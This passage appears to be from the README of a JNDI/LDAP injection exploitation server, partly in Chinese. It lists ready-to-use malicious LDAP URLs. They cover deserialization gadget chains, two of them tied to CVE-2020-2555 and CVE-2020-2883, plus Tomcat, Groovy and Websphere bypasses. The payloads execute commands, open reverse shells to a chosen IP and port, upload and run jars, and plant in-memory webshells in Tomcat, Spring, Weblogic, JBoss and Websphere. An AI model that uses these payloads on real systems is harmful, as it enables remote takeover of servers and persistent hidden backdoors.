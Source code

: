 ```
    ldap://127.0.0.1:1389/Basic/TomcatMemshell2  ---need extra header [Shell: true]
    ldap://127.0.0.1:1389/Basic/JettyMemshell
    ldap://127.0.0.1:1389/Basic/WeblogicMemshell1
    ldap://127.0.0.1:1389/Basic/WeblogicMemshell2
    ldap://127.0.0.1:1389/Basic/JBossMemshell
    ldap://127.0.0.1:1389/Basic/WebsphereMemshell
    ldap://127.0.0.1:1389/Basic/SpringMemshell

[+] Deserialize Queries: ldap://127.0.0.1:1389/Deserialization/[GadgetType]/[PayloadType]/[Params], e.g.
    ldap://127.0.0.1:1389/Deserialization/URLDNS/[domain]
    ldap://127.0.0.1:1389/Deserialization/CommonsCollectionsK1/Dnslog/[domain]
    ldap://127.0.0.1:1389/Deserialization/CommonsCollectionsK2/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/Deserialization/CommonsBeanutils1/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/Deserialization/CommonsBeanutils2/TomcatEcho
    ldap://127.0.0.1:1389/Deserialization/C3P0/SpringEcho
    ldap://127.0.0.1:1389/Deserialization/Jdk7u21/WeblogicEcho
    ldap://127.0.0.1:1389/Deserialization/Jre8u20/TomcatMemshell1
    ldap://127.0.0.1:1389/Deserialization/CVE_2020_2555/WeblogicMemshell1
    ldap://127.0.0.1:1389/Deserialization/CVE_2020_2883/WeblogicMemshell2    ---ALSO support other memshells

[+] TomcatBypass Queries
    ldap://127.0.0.1:1389/TomcatBypass/Dnslog/[domain]
    ldap://127.0.0.1:1389/TomcatBypass/Command/[cmd]
    ldap://127.0.0.1:1389/TomcatBypass/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/TomcatBypass/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/TomcatBypass/TomcatEcho
    ldap://127.0.0.1:1389/TomcatBypass/SpringEcho
    ldap://127.0.0.1:1389/TomcatBypass/TomcatMemshell1
    ldap://127.0.0.1:1389/TomcatBypass/TomcatMemshell2   ---need extra header [Shell: true]
    ldap://127.0.0.1:1389/TomcatBypass/SpringMemshell

[+] GroovyBypass Queries
    ldap://127.0.0.1:1389/GroovyBypass/Command/[cmd]
    ldap://127.0.0.1:1389/GroovyBypass/Command/Base64/[base64_encoded_cmd]

[+] WebsphereBypass Queries
    ldap://127.0.0.1:1389/WebsphereBypass/List/file=[file or directory]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/Dnslog/[domain]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/Command/[cmd]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/WebsphereMemshell
    ldap://127.0.0.1:1389/WebsphereBypass/RCE/path=[uploaded_jar_path]   ----e.g: ../../../../../tmp/jar_cache7808167489549525095.tmp
```
* 目前支持的所有 ```PayloadType``` 为
  * ```Dnslog```: 用于产生一个```DNS```请求，与 ```DNSLog```平台配合使用，对```Linux/Windows```进行了简单的适配
  * ```Command```: 用于执行命令，如果命令有特殊字符，支持对命令进行 ```Base64编码```后传输
  * ```ReverseShell```: 用于 ```Linux``` 系统的反弹shell，方便使用
  * ```TomcatEcho```: 用于在中间件为 ```Tomcat``` 时命令执行结果的回显，通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```SpringEcho```: 用于在框架为 ```SpringMVC/SpringBoot``` 时命令执行结果的回显，通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```WeblogicEcho```: 用于在中间件为 ```Weblogic``` 时命令执行结果的回显，通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```TomcatMemshell1```: 用于植入```Tomcat内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```TomcatMemshell2```: 用于植入```Tomcat内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```, 使用时需要添加额外的```HTTP Header``` ```Shell: true```, **推荐**使用此方式
  * ```SpringMemshell```: 用于植入```Spring内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```